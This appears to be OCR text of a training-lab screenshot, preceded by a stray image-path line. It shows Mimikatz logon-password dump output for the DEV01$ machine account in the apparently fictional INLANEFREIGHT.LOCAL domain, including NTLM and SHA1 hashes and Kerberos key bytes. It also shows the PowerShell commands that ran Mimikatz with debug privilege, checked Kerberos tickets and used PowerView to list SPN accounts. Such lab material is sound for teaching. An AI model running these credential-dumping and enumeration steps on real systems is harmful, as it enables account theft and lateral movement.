 ```powershell-session
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 45178 (00000000:0000b07a)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 44190 (00000000:0000ac9e)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               :
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname
